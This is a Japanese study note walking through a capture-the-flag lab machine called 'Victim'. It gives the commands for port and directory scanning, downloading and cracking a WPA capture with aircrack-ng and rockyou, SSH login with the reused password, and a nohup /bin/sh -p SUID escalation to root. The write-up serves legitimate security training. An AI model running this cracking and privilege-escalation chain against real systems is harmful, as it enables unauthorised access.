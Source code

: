 ## Victim
### 事前準備
  - rockyou.txt.gzファイルを解凍する
  - gunzip /usr/share/wordlists/rockyou.txt.gz 
### ポートスキャンまでは同じ
- `fping`を受け付けないこともあるので、`arp-scan`を使う
- ポート22, 80, 8080, 8999, 9000が開いている

### ブラウザで80,8080,8999の各サイトを見てみる
- html,robots.txt

### gobusterで80, 8080を見る   
- `gobuster dir -u 192.168.56.106 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50`
  - `-x`のオプションがあると、時間が4倍になる 
  - `-u` オプションは、リンクの次から順に検索していく
  - `-t`はスレッドの数を指定できる。デフォルトは10で、50だと３割くらい早くなる
- 8080ポートでもやってみる、この場合はhttp://$IP:8080。するとpasswordsテキストがある。中身を見てみると、、

### pcapファイルを取得
  - pcapファイルを取得する方法は２つある
  1. 8999ポートのブラウザにアクセスしてWPA-01.capファイルをダウンロードする
  2. `wget http://192.168.56.106:8999/WPA-01.cap`

### wiresharkを起動して中身をチェックする
- `wireshark  WPA-01.cap`とターミナルで入力
- 全体を見るために、Statics -> Protocol Hierarchyを見る
- wireless LANとあることから、wifiのパケットであることがわかる
- SSIDは無線LANの識別IDで要はユーザ名のことで、ここではdlinkというユーザがいることがわかる
- 暗号化がwpa1で弱いことがわかる

### 暗号解読
- 次の2つは辞書が異なるだけで、どちらでもできる
- 本に書いてるの
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/rockyou.txt`
  - パスワードがわかる
- ParrotOSにはwifi専用のパスワード辞書があるので、それでやってみる
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/wifite.txt` 
### sshで接続する
- ユーザとwifiのパスワードをsshでも使い回していると仮定してssh接続をする
- `ssh dlink@$IP`
- OSを特定する
- 個人で使える管理者権限を調べる

### SUIDファイルを特定する
- `find / -perm -4000 -ls 2> /dev/null`
  - `-ls`はロングフォーマットで表示する
- これだと何も出てこない。理由はよくわからん
  - `find / -perm -u=s -type f 2> /dev/null` 
### nohupコマンドでルートシェルを奪う
- `nohup /bin/sh -p -c "sh -p < $(tty) > $(tty) 2> $(tty)"`
  - nohupコマンドはターミナルを閉じてもコマンドは継続して実行したいときに使うコマンド
  - -pは実ユーザと実際のユーザが異なる時につけるオプション
  - $(tty)はドルパーレンと呼ぶ、単に先にコマンドを実行しているだけ
### rootを取得
  - `cd /root`
  - `ls`
  - `cat flag.txt`
